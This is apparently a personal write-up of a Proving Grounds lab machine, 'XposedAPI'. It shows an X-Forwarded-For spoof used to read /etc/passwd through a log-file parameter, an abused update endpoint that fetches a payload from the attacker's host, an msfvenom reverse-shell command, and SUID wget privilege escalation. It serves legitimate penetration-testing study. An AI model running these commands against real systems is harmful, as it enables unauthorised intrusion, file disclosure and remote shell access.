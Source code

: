 ```yaml
---
layout: writeup
title: XposedAPI - Proving Grounds
date: 2024-07-20 13:32:20 +0300
description: A Writeup of the XposedAPI Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux]
---
```


![XposedAPI1.png](/assets/images/XposedAPI/XposedAP1.png){: .center-aligned width="600px"}

Here's a writeup for XposedAPI, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Hard. I get started with an nmap scan to reveal:

```
PORT      STATE SERVICE
22/tcp    open  ssh
13337/tcp open  unknown
```

So we have two open ports, one for SSH and one for presumably an API service based on the name of the box. When we visit the port in the browser, we get this page:

![XposedAPI2.png](/assets/images/XposedAPI/XposedAPI2.png){: .center-aligned width="600px"}

It seems to detail the types of API requests which are accepted by the server. We can make a GET request on `/, /version, /logs,` and `/restart` and a POST request on `/update`. We know that this page is the result of making a GET request to `/`, because it's `http://192.168.245.134:13337/`. When we do the same for `/version` in `curl` we get this response: `1.0.0b8f887f33975ead915f336f57f0657180`. Not a lot of information there, but maybe we can find an exploit or something. The result for logs says `WAF: Access Denied for this Host.` Too bad, it looks like we need a user for the POST request on `/update`. Trying a GET request for `/restart` shows this:

![XposedAPI3.png](/assets/images/XposedAPI/XposedAPI3.png){: .center-aligned width="600px"}

Using this curl request: `curl -X POST -d '{"confirm":"true"}' http://192.168.245.134:13337/restart`, gives us a response of `Restart successful` but doesn't seem to change anything else on the other endpoints. Next we try a POST request to `/update` using this curl command:

`curl -H 'Content-Type: application/json' -d '{"user":"test", "url":"192.168.45.183/test.txt"}' -X POST http://192.168.245.134:13337/update`

This returns `Invalid username`. I try a few different common options, but I figure I can't do much here until I have a username, which I can't get from logs. I try to look for an existing exploit, but searching for "Remote Service Software" or "Remote Software Management API" only returns writeups for this very lab, as does searching the given version. 

At this point I attempted to brute force looking for usernames in Burp Repeater, but I got nowhere. Then I learned we can actually spoof where the request is coming from using a header called: `X-Forwarded-For`. Because the web page says that the API should only be exposed internally, we can assume that if we tell the server it came from localhost, we might actually be able to read the `/logs` page. 

We can craft such a curl request like this: `curl -X GET -H 'X-Forwarded-For: 127.0.0.1' http://192.168.245.134:13337/logs`, but it returns: `Error! No file specified. Use file=/path/to/log/file to access log files.`

So we add the file as a parameter like this: `curl -X GET -H 'X-Forwarded-For: 127.0.0.1' http://192.168.245.134:13337/logs?file=/etc/passwd` and we get a response. 

![XposedAPI4.png](/assets/images/XposedAPI/XposedAPI4.png){: .center-aligned width="600px"}

At that point I take note that we have a user called `clumsyadmin` which we had been looking for before in the logs. I look around briefly for an SSH key or something like that, but I find nothing, and given that we only have two ports to work with anyway, I move back to the API. I run this curl command: `curl -X POST -H 'Content-Type: application/json' -d '{"user":"clumsyadmin", "url":"192.168.45.183/test.txt"}' http://192.168.245.134:13337/update` and get a response that says: `Update requested by clumsyadmin. Restart the software for changes to take effect.`. I restart using the previous steps, and then the test file downloads from my server. 

I generate a reverse shell using `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=80 -f elf -o reverse.elf`, because I already know that the target can access port 80 having downloaded the test file previously. Then I open a shell on port 80, and I restart the server. 

![XposedAPI5.png](/assets/images/XposedAPI/XposedAPI5.png){: .center-aligned width="600px"}

And we have a shell. I check what we can run with sudo (nothing cause we don't have the password) and for any SUID binaries. Immediately `wget` sticks out, so I check [GTFObins](https://gtfobins.github.io/gtfobins/wget/#suid) and I run the commands for wget:

![XposedAPI6.png](/assets/images/XposedAPI/XposedAPI6.png){: .center-aligned width="600px"}

And boom, we have root. 

Lessons learned: I did not know about the `X-Forwarded-For` header. Beyond that it was mostly practice with curl command syntax. The privesc was straightforward and took very little time. 
